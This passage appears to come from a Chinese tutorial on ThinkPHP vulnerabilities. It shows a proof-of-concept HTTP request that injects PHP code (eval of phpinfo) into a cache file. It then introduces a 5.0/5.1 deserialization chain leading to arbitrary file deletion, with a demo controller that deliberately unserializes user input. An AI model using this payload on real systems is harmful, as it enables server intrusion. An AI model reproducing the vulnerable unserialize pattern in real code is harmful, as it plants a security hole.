 - PoC

  Thinkphp3和thinkphp5的PoC差不多，这里简单给出tp5的：

```http
GET /public/index.php/Index/index/codeinject?username=hello%0d%0a@eval(phpinfo());//%20%EF%BC%8C HTTP/1.1
Host: x.x.x.x
```

该漏洞重点在于查找缓存常见的名字，比如key和name；再利用的时候注意默认的session文件写入路径，如：

```
xxx/Application/Runtime/Temp/b068931cc450442b63f5b3d276ea4297.php
xxxx/runtime/cache/b0/68931cc450442b63f5b3d276ea4297.php
```

缓存路径一般不在官方认可Web目录public目录下，因此写入后可能也不能直接访问。**写入路径的限制了webshell访问和利用条件，如何利用需要深入思考，这里不做解释。**

## （三）反序列化链

需要提前对[php反序列化](https://www.cnblogs.com/iamstudy/articles/php_serialize_problem.html)和[pop链条构造](https://www.cnblogs.com/iamstudy/articles/php_object_injection_pop_chain.html)有基础了解。

### 1. think\process\pipes\Windows:__destruct任意文件删除

#### - 利用条件

版本范围：ThinkPHP 5.0.X/ThinkPHP 5.1.X

#### - 漏洞原理和分析

1. 入口：`think\process\pipes\Windows:__destruct`方法调用的`removeFiles`方法造成任意文件删除.
2. `file_exists`分支下存在`unlink`函数可造成任意删除文件效果

详细分析参考：[ThinkPHP5.0.X反序列化利用链](https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5.0.X反序列化利用链.md)。这个反序列化是最简单形式的了，后续几条chains都是很多通过这个衍生出来的。

漏洞利用链图示如下：

![img](https://cdn.nlark.com/yuque/0/2023/png/21861937/1678793580634-37a47a46-234d-4de0-a35d-5fe429774cbe.png)

#### -漏洞复现

- demo构造

选取最简单的unserialize函数触发

```php
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $c = unserialize($_GET['c']);
        var_dump($c);
        return 'Welcome to thinkphp5.0.24';
    }
}
```
